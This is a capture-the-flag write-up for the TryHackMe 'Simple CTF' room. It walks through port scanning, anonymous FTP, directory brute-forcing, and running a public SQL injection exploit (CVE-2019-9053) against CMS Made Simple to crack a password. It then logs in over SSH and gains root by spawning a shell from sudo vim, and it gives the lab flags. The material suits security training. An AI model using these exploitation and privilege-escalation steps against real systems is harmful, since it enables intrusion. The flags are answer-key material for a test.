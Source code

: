 # THM_Simple_CTF

---

### [Task 1] Simple CTF

- How many services are running under port 1000?

  **Solution: 2** 

  ~~~bash
  $ sudo nmap  10.10.218.172 -p1000 -sT
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-08 14:12 CEST
  Nmap scan report for 10.10.218.172
  Host is up (0.044s latency).
  
  PORT     STATE    SERVICE
  1000/tcp filtered cadlock
  
  Nmap done: 1 IP address (1 host up) scanned in 1.54 seconds
  $ sudo nmap  10.10.218.172 -p1000 -sU
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-08 14:12 CEST
  Nmap scan report for 10.10.218.172
  Host is up (0.041s latency).
  
  PORT     STATE         SERVICE
  1000/udp open|filtered ock
  
  Nmap done: 1 IP address (1 host up) scanned in 1.52 seconds
  ~~~

- What is running on the higher port?

  **Solution: ssh** 

  ~~~bash
  $ sudo nmap -sV 10.10.218.172 
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-08 14:15 CEST
  Nmap scan report for 10.10.218.172
  Host is up (0.041s latency).
  Not shown: 997 filtered ports
  PORT     STATE SERVICE VERSION
  21/tcp   open  ftp     vsftpd 3.0.3
  80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
  2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 12.71 seconds
  ~~~

- What's the CVE you're using against the application?

  **Solution: CVE-2019-9053** 

  ~~~bash
  $ ftp 10.10.218.172
  Connected to 10.10.218.172.
  220 (vsFTPd 3.0.3)
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp> sl
  ?Invalid command
  ftp> ls
  200 PORT command successful. Consider using PASV.
  150 Here comes the directory listing.
  drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
  226 Directory send OK.
  ftp> cd pub
  250 Directory successfully changed.
  ftp> ls
  200 PORT command successful. Consider using PASV.
  150 Here comes the directory listing.
  -rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
  226 Directory send OK.
  ftp> get ForMitch.txt
  local: ForMitch.txt remote: ForMitch.txt
  200 PORT command successful. Consider using PASV.
  150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
  226 Transfer complete.
  166 bytes received in 0.00 secs (157.8475 kB/s)
  ftp> 221 Goodbye.
  ~$ cat ForMitch.txt 
  Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
  ~~~

~~~bash
  $ gobuster dir -u 10.10.218.172 -w /usr/share/wordlists/dirb/big.txt 
  ===============================================================
  Gobuster v3.0.1
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
  ===============================================================
  [+] Url:            http://10.10.218.172
  [+] Threads:        10
  [+] Wordlist:       /usr/share/wordlists/dirb/big.txt
  [+] Status codes:   200,204,301,302,307,401,403
  [+] User Agent:     gobuster/3.0.1
  [+] Timeout:        10s
  ===============================================================
  2020/10/08 16:48:06 Starting gobuster
  ===============================================================
  /.htaccess (Status: 403)
  /.htpasswd (Status: 403)
  /robots.txt (Status: 200)
  /server-status (Status: 403)
  /simple (Status: 301)
  ===============================================================
  2020/10/08 16:49:31 Finished
  ===============================================================
~~~

![solution](./resources/Task_1_1.png)

  ![solution](./resources/Task_1_2.png)

  ~~~bash
  $ searchsploit cms made simple 2.2.8
  -------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
   Exploit Title                                                                                                                              |  Path
  -------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
  CMS Made Simple < 2.2.10 - SQL Injection                                                                                                    | php/webapps/46635.py
  -------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
  Shellcodes: No Results
  ~~~

  ![solution](./resources/Task_1_3.png)

  

- To what kind of vulnerability is the application vulnerable?

  **Solution: Sqli**

  ![solution](./resources/Task_1_4.png)

- What's the password?

  **Solution: secret**

  ~~~bash
  $ ./46635.py -u http://10.10.218.172/simple/ --crack -w ./wordlist/rockyou.txt 
  [+] Salt for password found: 1dac0d92e9fa6bb2
  [+] Username found: mitch
  [+] Email found: admin@admin.com
  [+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
  [+] Password cracked: secret
  ~~~

- Where can you login with the details obtained?

  **Solution: ssh**

  >*NOTE: IP has changed due to server restart*

  ~~~batch
  $ ssh mitch@10.10.255.121 -p2222
  mitch@10.10.255.121's password: 
  Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)
  
   * Documentation:  https://help.ubuntu.com
   * Management:     https://landscape.canonical.com
   * Support:        https://ubuntu.com/advantage
  
  0 packages can be updated.
  0 updates are security updates.
  
  Last login: Thu Oct  8 21:37:47 2020 from 10.9.90.233
  $ 
  ~~~

- What's the user flag?

  **Solution: G00d j0b, keep up!**

  ~~~bash
  $ ls
  user.txt
  $ cat user.txt
  G00d j0b, keep up!
  ~~~

- Is there any other user in the home directory? What's its name?

  **Solution: sunbath**

  ~~~bash
  $ cd ..
  $ ls
  mitch  sunbath
  ~~~

- What can you leverage to spawn a privileged shell?

  **Solution: vim**

  >*Using [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)*

  ~~~bash
  												...
  ====================================( Users Information )=====================================
  [+] My user
  [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#users
  uid=1001(mitch) gid=1001(mitch) groups=1001(mitch)
  
  [+] Do I have PGP keys?
  
  [+] Clipboard or highlighted text?
  xsel and xclip Not Found
  
  [+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
  [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
  User mitch may run the following commands on Machine:
      (root) NOPASSWD: /usr/bin/vim
      											...
  ~~~

  ~~~bash
  $ sudo vim 
  ~                                                                                     
  ~                                                                                     
  ~                                                                                     
  ~                                                                                     
  ~  
  :!id
  uid=0(root) gid=0(root) groups=0(root)
  Press ENTER or type command to continue
  ~                                                                                     
  ~                                                                                     
  ~                                                                                     
  ~                                                                                     
  ~  
  :! /bin/bash
  root@Machine:~# 
  ~~~

- What can you leverage to spawn a privileged shell?

  **Solution: W3ll d0n3. You made it!**

  ~~~bash
  root@Machine:~# cd /root/
  root@Machine:/root# ls
  root.txt
  root@Machine:/root# cat root.txt 
  W3ll d0n3. You made it!
  ~~~

---


